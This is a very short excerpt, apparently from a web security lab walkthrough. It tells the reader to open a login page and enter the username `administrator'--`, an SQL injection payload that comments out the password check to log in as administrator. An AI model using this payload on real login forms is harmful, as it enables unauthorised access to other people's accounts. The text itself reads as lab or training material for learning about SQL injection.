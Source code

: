 Go to the login page. Enter these into the field

Username: `administrator'--`

Password: `whatevs`
